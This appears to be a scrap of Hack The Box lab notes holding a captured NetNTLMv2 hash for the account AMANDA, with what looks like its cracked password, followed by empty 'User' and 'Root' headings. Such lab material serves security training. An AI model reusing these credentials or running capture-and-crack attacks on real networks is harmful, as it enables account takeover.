AMANDA::HTB:b675715c5499593c:ffd2bbfcc28dc7d3ceff1f0841376996:010100000000000080ac78d583f8d90170e74450e59b13b400000000020008004a004d004e00360001001e00570049004e002d0050005100380053004200320033005000490052004a0004003400570049004e002d0050005100380053004200320033005000490052004a002e004a004d004e0036002e004c004f00430041004c00030014004a004d004e0036002e004c004f00430041004c00050014004a004d004e0036002e004c004f00430041004c000700080080ac78d583f8d90106000400020000000800300030000000000000000100000000200000aaddc6cf9ec13f9a82b5c282a14aa8fbce7ddbbd58ff57d644c90a4b93b67eba0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003900000000000000000000000000:Ashare1972
...
```
## User


## Root